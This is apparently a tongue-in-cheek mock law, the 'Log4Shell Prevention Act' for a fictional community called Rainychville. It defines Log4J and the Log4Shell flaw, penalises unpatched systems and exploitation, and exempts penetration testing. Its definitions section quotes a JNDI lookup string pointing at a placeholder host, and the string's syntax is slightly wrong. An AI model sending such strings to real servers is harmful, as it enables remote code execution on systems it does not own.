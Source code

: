 = Log4Shell Prevention Act
:toc:
:sectnums: |,all|

*AN ACT* to prevent the exploitation of the "Log4Shell" vulnerability in the Java library known as Log4J.

== SHORT TITLE.
This act may be cited as the ``Log4Shell Prevention Act``.

== DEFINITIONS.
[horizontal]
. *Java* as a programming language, wherein a program to print out
"Hello World" may be defined as:
+
[source,java]
--
public class Main {
    public static void main (String[] args) {
        System.out.println("Hello World");
    }
}
--

+
where such program is placed in a file named Main.java;

. *Log4J* as a logging library for the Java programming
 language, allowing for debugging messages and information about
 the operations of a program or it's error handling to be logged
 and therefore interpreted by programmers for the purposes of
 rectifying errors or debugging;

. *Log4Shell* as a severe vulnerability in Log4J, allowing for the
 execution of remote code by sending specially formatted strings,
 some of which could load code and execute it, regardless of trust
 or permission level wherein such specially formatted string may
 be something such as ``{$jndi:ldap://example.com:389/badcode.java}``
 where ``{$jndi:ldap`` instructs Log4J to load remote code from
 ``example.com:389/badcode.java``, where ``389`` is the port number,
 and ``badcode.java`` is the location of the attacker's code, and
 that the code loaded from the ``{$jndi:ldap`` is executed, with
 no permission checks;

. *Unauthenticated remote code execution, or RCE* as the execution of
 arbitrary code on a server, where the code is malicious or violates any
 Rainychville law surrounding computers, or where it's execution is
 undesirable to the owner or maintainer of the computer on which it is
 executed, such as the undesired action by Log4J defined in Section 2.3;

. *Code or program* as any set of instructions understandable by any
  computer, whether machine code, human-readable code interpreted by
  an interpreter (such as Python);

. *Computer or machine* as any contraption capable of automatically
  performing calculations or tasks;

. *Sensitive data* as any data, machine-readable, human-readable, or
  program-readable, that details any sensitive information, where
  such sensitive information may include:
["arabic"]
.. personal information, as defined by section 1006, clause 2 of
   the Rainychville TOS;
.. government or state secrets, such as:
["arabic"]
... information on the locations of silos or facilities
    that support the use of weapons of mass destruction
    such as nukes, hydrogen bombs, death stars;
... locations of espionage agents, where such agents are
    performing any kind of tasks for the Rainychville
    Government;
... plans detailing military actions, or any information
    which may benefit an enemy or put Rainychville at a
    disadvantage in times of war or conflict;
. Environment as information on the unique set of software installed
 on the computer's operating system, it's configurations;
. Environment variables as a series of key-value pairs on the computer,
 which defines values critical or useful to it's operation, including but
 not limited to:
.. API keys for accessing application programming interfaces,
 services, and other resources on remote servers, where this API
 key may be used for authorization, or authentication; and
.. configuration settings for programs which operate in the shell.

== FAILURE TO PATCH LOG4J.
. Any organization that fails to protect personal or sensitive data,
by deliberate failure to patch the Log4Shell exploit, or prevent it's
exploitation via other means such as alteration of environment
variables or preventing LDAP lookups, shall be criminally liable
for the breach of said data, and any other Rainychville law broken
by the leakage of said data. Aforementioned organizations covered
include but are not limited to:
["arabic"]
.. Private or public companies;
.. The Rainychville Government itself; and
.. Individuals who operate or control services that
   may be affected by the exploit;
   where such organization:
.. operates in the jurisdiction of Rainychville;
.. is in possession, whether such data is encrypted at rest
   and not usable by the organization itself, only by programs
    which the organization controls, of any sensitive data;
. Organizations as defined by Section 3.1, shall be permitted to
deliberately maintain environments where Log4Shell is exploitable,
for the purposes of demonstration, penetration testing, ethical
hacking, or experimentation.
. Whereas it is infeasible to update Log4J to the latest version,
such organization may also alter their environment or it's
variables, or their copy of Log4J itself to prevent the exploitation
of Log4Shell.

== EXPLOITATION OF LOG4SHELL.
. The exploitation of the Log4Shell exploit shall be considered to be
a method of hacking a computer, or networks of computers, or part of
the act of hacking where the exploitation of such is defined as the
usage of the exploit in non-ethical hacking actions to perform remote
code execution or attain unauthorized access to a server's environment
variables.

. The standard exceptions for demonstration, penetration testing,
ethical hacking shall also apply to the act of exploiting the Log4Shell
exploit.

. If any exploitation of Log4Shell affects Rainych herself negatively,
any hacker responsible for affecting Rainych negatively via the Log4Shell
exploit, where it can be reliably proven in court, shall be permanently
banned from the Rainychville Discord server, without the ability to
appeal such a ban.

== GOVERNMENT PATCHING OF LOG4SHELL.
. The Rainychville Government itself must make reasonable efforts to
patch the Log4Shell vulnerability in all programs that they operate or
control, where such programs may be wholly written in Java, or at the
very least contain components that use or interact with Java code.

. To allow compliance with Section 5.1, Rainychville government
divisions shall be granted the power to demand copies of the source
code of any Java program that they use, within reason, where the
reason for such demand shall be exclusively the modification of the
software to prevent Log4Shell's exploitation, where such program may
be proprietary or where the developer does not provide users of the
software with access to the source code or any easily modifiable form
of the program.

. If the program's source code is required and the program's source
code is accessible but does not meet the definition of "open source",
the Rainychville Government, within reason, when modifying the source
code even against the wishes of it's author or maintainer, be immune
to any claim of copyright infringement or the violation of any contract,
proven such modification only prevents the exploitation of Log4Shell,
and that there is no other change made to the program's features.

. Any investigation into possible abuse of the rights granted to the
Rainychville government defined in Sections 5.2 and 5.3 shall be
prioritized and anyone caught abusing such power prioritized for removal
from any position of trust or power within the Rainychville Government,
and banned from holding or regaining any such position, whereas such any
person who has recieved such a ban may only appeal it after extensive
probation and background checks.

. New programs in Java being developed by the Rainychville Government
shall be discouraged from utilizing the Log4J logging library to
prevent vulnerabilities or the exploitation of Log4Shell. These
programs shall instead use alternative Java logging libraries.

== IMPORT OF LOG4SHELL-AFFECTED SOFTWARE.
. The transfer of software affected by Log4Shell via a physical medium
including but not limited to:
["arabic"]
.. hard disk drives or solid state drives, wherein programs
which may or may not be affected by Log4Shell are stored, and
mailed or physically transported to another server or a user's
computer;

.. books wherein the source code is physically written on the
pages of the book itself, or where significant snippets are
included in quotes of the book;
shall be logged and recorded, whereas such transfer, to be covered under
this law, must be:

.. from a server or location outside of the jurisdiction of the
Rainychville Government, to any location within jurisdiction,
including any embassies or diplomatic buildings outside of
Rainychville but owned and operated by the Rainychville
Government for diplomatic purposes;

.. software meant for production;

+
whereas exceptions shall be made for:

.. the archival of old/legacy software, or old versions of said
software;

.. demonstrations of the Log4Shell vulnerability where it will
be used for experimentation, penetration testing or ethical
hacking; and

.. software not in production or unlikely to interact with
sensitive data.

. No logging or recording shall be required for the digital transfer
of software.

LEGISLATIVE HISTORY: Please review the commit logs of the Git repository that
this law document is stored in.

***

ECIR 12.1.355.8
